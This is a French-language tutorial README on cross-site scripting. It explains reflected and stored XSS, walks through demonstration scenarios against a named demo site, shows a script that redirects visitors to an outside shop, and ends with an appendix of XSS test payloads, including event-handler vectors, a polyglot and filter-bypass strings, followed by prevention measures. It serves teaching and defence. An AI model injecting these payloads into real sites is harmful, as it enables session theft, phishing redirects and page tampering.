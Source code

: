 # Introduction

Les attaques XSS (Cross-Site Scripting) sont des vulnérabilités web critiques qu'il est important de comprendre dans un contexte pédagogique. Voici une présentation structurée de ce type d'attaque.

# Types d'attaques XSS principaux

**XSS Réfléchi (Reflected)**
- L'attaque se produit lorsque les données malveillantes sont immédiatement renvoyées à l'utilisateur
- Nécessite que la victime clique sur un lien spécialement conçu
- Cible souvent les pages de recherche et les messages d'erreur

**XSS Persistant (Stored)**
- Le code malveillant est stocké sur le serveur de manière permanente
- Affecte tous les visiteurs de la page compromise
- Particulièrement dangereux car peut toucher des milliers d'utilisateurs

# Démonstration 

![image](https://github.com/user-attachments/assets/ae85fbc2-df75-48e4-b0d4-a83e80c5ace6)

**Scénario 1**
```javascript
// Exemple de payload basique pour démonstration
<script>alert('XSS!')</script>
```

- http://latestworlds.com/demo/
- http://latestworlds.com/demo/article.php?id=1#

--------------

![image](https://github.com/user-attachments/assets/0a95be5e-17f1-4507-9362-79465c1ff144)

--------------

![image](https://github.com/user-attachments/assets/53434e99-3082-4cf8-9f03-4856691a060c)

--------------

![image](https://github.com/user-attachments/assets/b8f16c7f-3b86-41d4-9f44-c2c15c4c2c24)

--------------

![image](https://github.com/user-attachments/assets/9aeacbd8-4088-4df8-93b8-9f7e0500854a)

--------------

![image](https://github.com/user-attachments/assets/3499c6e2-b003-49ec-a200-0c21b87457d0)


--------------


**Scénario 2**

Le script est le suivant :

```html
<script>alert("XSS Stocké !!!");</script>
```

Ceci montre une démonstration d'une attaque **XSS stockée (Cross-Site Scripting)** où un script malveillant est injecté dans un formulaire et peut être exécuté côté client.

**Scénario 3**

### Script XSS pour redirection
```html
<script>window.location.href="https://boutique.rapidopresco.com/";</script>
```

### Explication
- **`<script>`** : Balise JavaScript qui exécute le code.
- **`window.location.href`** : Permet de rediriger l'utilisateur automatiquement vers le site souhaité.

---

### Exemple d'injection
Ajoutez ceci dans le champ de commentaire ou de pseudo pour simuler une attaque XSS stockée ou réfléchie :

```html
<script>alert('Alerte XSS !'); window.location.href="https://boutique.rapidopresco.com/";</script>
```

---

### **Pédagogie et Sécurité**
- Cette démonstration sert à montrer l'impact d'une mauvaise validation des entrées.
- Il est important d'assainir (sanitize) les données côté serveur pour éviter l'exécution de scripts malveillants.  





**Points importants**
- Ne jamais tester sur des sites réels
- Utiliser uniquement des environnements contrôlés
- Mettre l'accent sur la prévention et la sécurisation

# Impacts et risques

**Conséquences possibles**
- Vol de cookies et sessions utilisateurs
- Hameçonnage et vol d'identifiants
- Détournement de sessions authentifiées
- Modification du contenu des pages

# Prévention

**Mesures de sécurité essentielles**
- Validation stricte des entrées utilisateur
- Encodage HTML des sorties
- Utilisation de frameworks sécurisés
- Mise en place d'une Content Security Policy (CSP)

-------------------
# Annexe :
-------------------

## Scripts XSS pour tests pédagogiques

**Scripts basiques**
```javascript
// Affichage simple
<script>alert('XSS Test')</script>
// Utilisation de fromCharCode
<a href="javascript:alert(String.fromCharCode(88,83,83))">Cliquez ici</a>
```

**Scripts avec gestionnaires d'événements**
```html
// Utilisation de onerror
<img src="inexistant" onerror="alert('XSS via onerror')">
// Utilisation de onload avec SVG
<svg onload=alert('XSS')>
// Utilisation de BODY
<BODY ONLOAD=alert('XSS')>
```

**Scripts avancés**
```javascript
// Script polyglot multi-contextes
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

// Style avec list-style-image
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

## Contextes d'utilisation

**Test de validation d'entrées**
```javascript
// Injection dans les paramètres URL
?keyword=<script>alert("Test XSS")</script>

// Injection dans les formulaires
<img src="aaaaa" onerror="alert('Bypass filtres');" />
```

Il est crucial de n'utiliser ces scripts que dans un environnement de test contrôlé et isolé.



